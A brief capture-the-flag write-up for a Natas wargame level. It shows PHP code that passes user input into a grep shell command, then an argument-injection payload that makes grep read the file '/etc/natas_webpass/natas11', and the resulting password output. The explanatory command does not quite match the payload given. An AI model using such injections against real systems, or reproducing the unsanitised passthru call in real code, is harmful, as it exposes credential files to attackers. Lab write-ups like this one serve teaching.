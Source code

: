 # Solution
```
<pre>  
<?  
$key = "";  
  
if(array_key_exists("needle", $_REQUEST)) {    $key = $_REQUEST["needle"];  
}  
  
if($key != "") {  
    if(preg_match('/[;|&]/',$key)) {  
        print "Input contains an illegal character!";  
    } else {        passthru("grep -i $key dictionary.txt");  
    }  
}  
?>
```

The grep -i command works as follow:
the part `$key dictionary.txt` means that it will try to find any word with value $key in text file. The funny thing about this grep is we can specify multiple text files.

If our payload is:
```
a /etc/natas_webpass/natas11
```

it is an equivalent of:
```
grep -i natas /etc/natas_webpass/natas11 dictionar.txt
```

```
Output:

/etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
```